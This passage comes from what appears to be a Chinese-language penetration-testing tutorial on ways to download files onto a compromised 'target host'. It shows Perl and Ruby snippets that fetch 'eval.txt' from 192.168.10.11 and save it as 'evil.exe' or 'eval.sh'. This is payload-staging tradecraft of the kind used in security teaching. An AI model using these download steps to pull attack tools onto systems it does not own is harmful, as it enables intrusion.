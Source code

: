 ![python](Windows&Linux常见文件下载方法/python.png)



**(3) 编程语言**

#### ***Perl***：

**Perl是目前很受欢迎的主流脚本语言，linux主机一般都自带perl环境，我们可以在终端中使用vim创建 dowanload.pl 脚本，之后执行perl来实现远程文件下载：**

```
#!perl
#!/usr/bin/perl
use LWP::Simple;
getstore("http://192.168.10.11/eval.txt","evil.exe");
```



##### 然后运行：

```
perl download.pl
```



#### ***Ruby：***

##### 当目标主机内安装了Ruby时，使用vim创建一个download.rb的文件

```
#!ruby
#!/usr/bin/ruby
require 'net/http'
Net::HTTP.start("192.168.10.11") { |http|
r = http.get("/eval.txt")
open("eval.sh", "wb") { |file|
file.write(r.body)
}
}
```
